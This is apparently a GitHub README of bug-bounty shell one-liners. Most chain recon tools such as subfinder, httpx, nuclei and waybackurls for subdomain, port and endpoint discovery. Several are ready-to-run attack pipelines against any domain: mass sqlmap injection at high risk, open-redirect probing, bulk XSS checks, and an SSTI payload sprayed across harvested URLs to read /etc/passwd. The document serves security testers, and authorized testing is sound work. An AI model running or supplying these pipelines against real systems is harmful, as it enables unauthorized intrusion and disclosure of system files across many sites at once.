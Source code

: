 # Oneliner-Cmd
 oneliner scripts for bug bounty

## List tools
- [Subfinder](https://github.com/projectdiscovery/subfinder)
- [Naabu](https://github.com/projectdiscovery/naabu)
- [httpx](https://github.com/projectdiscovery/httpx)
- [Nuclei](https://github.com/projectdiscovery/nuclei)
- [Waybackurls](https://github.com/tomnomnom/waybackurls)
- [DNSProbe](https://github.com/projectdiscovery/dnsprobe)
- [gf](https://github.com/tomnomnom/gf)
- [sqlmap](https://github.com/sqlmapproject/sqlmap)
- [qsreplace](https://github.com/tomnomnom/qsreplace)
- [hakrawler](https://github.com/hakluke/hakrawler)
- [Puredns](https://github.com/d3mondev/puredns)
- [GauPlus](https://github.com/bp0lr/gauplus)
- [uro](https://github.com/s0md3v/uro)

### Auto scanner

```bash
subfinder -d site.com -all | naabu | httpx | nuclei -t nuclei-templates
```

### Finding files (For example in here .json file)

```bash
subfinder -d site.com -all | naabu | httpx | waybackurls | grep -E ".json(?:onp?)?$"
```

### Find interesting subdomain (For example like admin.staging.example.com) 

```bash
subfinder -d site.com -all | dnsprobe -silent | cut -d ' ' -f1 | grep --color 'dmz\|api\|staging\|env\|v1\|stag\|prod\|dev\|stg\|test\|demo\|pre\|admin\|beta\|vpn\|cdn\|coll\|sandbox\|qa\|intra\|extra\|s3\|external\|back'
```

### Find SQL injection at scale

```bash
subfinder -d site.com -all -silent | waybackurls | sort -u | gf sqli > gf_sqli.txt; sqlmap -m gf_sqli.txt --batch --risk 3 --random-agent | tee -a sqli.txt
```

### Find open redirects at scale

```bash
subfinder -d site.com -all -silent | waybackurls | sort -u | gf redirect | qsreplace 'https://example.com' | httpx -fr -title --match-string 'Example Domain'
```

### Find SSTI at scale

```bash
echo "domain" | subfinder -silent | waybackurls | gf ssti | qsreplace "{{''.class.mro[2].subclasses()[40]('/etc/passwd').read()}}" | parallel -j50 -q curl -g | grep  "root:x"
```

### Scanning top exploited vulnerabilities according to CISA

```bash
subfinder -d site.com -all -silent | httpx -silent | nuclei -rl 50 -c 15 -timeout 10 -tags cisa -vv
```

### Bruteforce subdomains

```bash
subfinder -d site.com -all -silent | httpx -silent | hakrawler | tr "[:punct:]" "\n" | sort -u > wordlist.txt

puredns bruteforce wordlist.txt site.com -r resolvers.txt -w output.txt
```

### Finding Cross-Site Scripting (XSS) using KnoXSS API

```bash
echo "domain" | subfinder -silent | gauplus | grep "=" | uro | gf xss | awk '{ print "curl https://knoxss[.]me/api/v3 -d \"target="$1 "\" -H \"X-API-KEY: APIKNOXSS\""}' | sh
```

### Clean list of host, port, and version

```bash
mkdir nmap; cat targets.txt | parallel -j 35 nmap {} -sTVC -host-timeout 15m -oN nmap/{} -p 22,80,443,8080 --open > /dev/null 2>&1; cd nmap; grep -Hari "/tcp" | tee -a ../services.txt; cd ../
```

### Waybackurls validator

```bash
waybackurls http://example.com | grep "url" | xargs -n 1 curl -s -o /dev/null -w "%{http_code} > %{url_effective}\n" | sort
```

### Extract endpoints from JS (Part 1)

```bash
curl -L -k -s https://www.example.com | tac | sed "s#\\\/#\/#g" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | awk -F '//' '{if(length($2))print "https://"$2}' | sort -fu | xargs -I '%' sh -c "curl -k -s \"%\" | sed \"s/[;}\)>]/\n/g\" | grep -Po \"(['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})|(\.(get|post|ajax|load)\s*\(\s*['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})\"" | awk -F "['\"]" '{print $2}' | sort -fu
```

### Extract endpoints from JS (Part 2)

```bash
curl -Lks https://example.com | tac | sed "s#\\\/#\/#g" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | sed -r "s/^src['\"]?[=:]['\"]//g" | awk -v url=https://example.com '{if(length($1)) if($1 ~/^http/) print $1; else if($1 ~/^\/\//) print "https:"$1; else print url"/"$1}' | sort -fu | xargs -I '%' sh -c "echo \"\n##### %\";wget --no-check-certificate --quiet \"%\"; basename \"%\" | xargs -I \"#\" sh -c 'linkfinder.py -o cli -i #'"
```

### Extract endpoints from JS (Part 3)

```bash
curl -Lks https://example.com | tac | sed "s#\\\/#\/#g" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | sed -r "s/^src['\"]?[=:]['\"]//g" | awk -v url=https://example.com '{if(length($1)) if($1 ~/^http/) print $1; else if($1 ~/^\/\//) print "https:"$1; else print url"/"$1}' | sort -fu | xargs -I '%' sh -c "echo \"\n##### %\";wget --no-check-certificate --quiet \"%\";curl -Lks \"%\" | sed \"s/[;}\)>]/\n/g\" | grep -Po \"('#####.*)|(['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})|(\.(get|post|ajax|load)\s*\(\s*['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})\" | sort -fu" | tr -d "'\""
```

### Extract endpoints from JS (Part 4)

```bash
curl -Lks https://example.com | tac | sed "s#\\\/#\/#g" | egrep -o "src['\"]?\s*[=:]\s*['\"]?[^'\"]+.js[^'\"> ]*" | sed -r "s/^src['\"]?[=:]['\"]//g" | awk -v url=https://example.com '{if(length($1)) if($1 ~/^http/) print $1; else if($1 ~/^\/\//) print "https:"$1; else print url"/"$1}' | sort -fu | xargs -I '%' sh -c "echo \"'##### %\";curl -k -s \"%\" | sed \"s/[;}\)>]/\n/g\" | grep -Po \"('#####.*)|(['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})|(\.(get|post|ajax|load)\s*\(\s*['\\\"](https?:)?[/]{1,2}[^'\\\"> ]{5,})\" | sort -fu" | tr -d "'\""
```
